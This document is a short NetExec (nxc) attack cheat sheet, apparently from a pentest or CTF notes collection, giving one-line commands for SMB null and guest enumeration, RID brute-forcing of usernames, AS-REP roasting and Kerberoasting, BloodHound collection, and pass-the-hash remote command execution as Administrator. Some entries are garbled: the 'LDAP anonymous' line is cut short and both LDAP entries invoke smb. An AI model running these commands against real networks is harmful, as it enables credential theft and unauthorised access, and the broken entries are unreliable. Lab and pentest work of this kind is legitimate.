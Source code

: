# nxc
#plateform/linux #target/remote #cat/ATTACK

## SMB all in one
```
nxc smb <ip> -u '<user>' -p '<passwd>' --shares --users --pass-pol --rid-brute 10000 --log $(pwd)/smb.out; cat smb.out | grep TypeUser | cut -d '\' -f 2 | cut -d ' ' -f 1 > users.txt; cat users.txt
```

## SMB null all in one
```
nxc smb <ip> -u '' -p '' --shares --users --pass-pol --rid-brute 10000 --log $(pwd)/smb.out; cat smb.out | grep TypeUser | cut -d '\' -f 2 | cut -d ' ' -f 1 > users.txt; cat users.txt
```

## SMB guest all in one
```
nxc smb <ip> -u 'a' -p '' --shares --users --pass-pol --rid-brute 10000 --log $(pwd)/smb.out; cat smb.out | grep TypeUser | cut -d '\' -f 2 | cut -d ' ' -f 1 > users.txt; cat users.txt
```

## LDAP anonymous all in one
```
nxc smb <ip> -u ''
```

## LDAP all in one
```
nxc smb <ip> -u '<user>' -p '<passwd>' --users --asreproast hashes.asreproast --kerberoasting hashes.kerberoast
```

## Execute bloodhound
```
nxc ldap <ip> -u '<user>' -p '<passwd>' --bloodhound --collection All --dns-server <ip>
```

## Execute bloodhound w/o ObjectProps
```
nxc ldap <ip> -u '<user>' -p '<passwd>' --bloodhound --collection Group,LocalAdmin,RDP,DCOM,Container,PSRemote,Session,Acl,Trusts,LoggedOn --dns-server <ip>
```

## Cat root.txt with administrator hash
```
nxc smb <ip> -u Administrator -H '<hash>' -x 'type C:\Users\Administrator\Desktop\root.txt'
```
